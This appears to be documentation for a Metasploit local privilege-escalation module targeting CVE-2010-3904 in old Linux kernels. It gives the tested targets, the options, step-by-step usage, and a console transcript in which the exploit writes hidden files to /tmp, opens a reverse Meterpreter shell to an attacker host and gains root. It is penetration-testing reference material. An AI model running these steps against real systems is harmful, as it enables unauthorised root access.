 ## Description

  This module exploits a vulnerability in the `rds_page_copy_user` function
  in `net/rds/page.c` (RDS) in Linux kernel versions 2.6.30 to 2.6.36-rc8
  to execute code as `root` (CVE-2010-3904).


## Vulnerable Application

  This module has been tested successfully on:

  * Fedora 13 (i686) with kernel version 2.6.33.3-85.fc13.i686.PAE
  * Ubuntu 10.04 (x86_64) with kernel version 2.6.32-21-generic


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/rds_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Scenarios

  ```
  msf5 > use exploit/linux/local/rds_priv_esc
  msf5 exploit(linux/local/rds_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/rds_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/rds_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.zEAOL.c' (7282 bytes) ...
  [*] Writing '/tmp/.kBTWC7E' (237 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (853256 bytes) to 172.16.191.149
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.149:40103) at 2018-05-03 08:52:59 -0400
  [+] Deleted /tmp/.zEAOL.c
  [+] Deleted /tmp/.zEAOL
  [+] Deleted /tmp/.kBTWC7E

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.149
  OS           : Ubuntu 10.04 (Linux 2.6.32-21-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

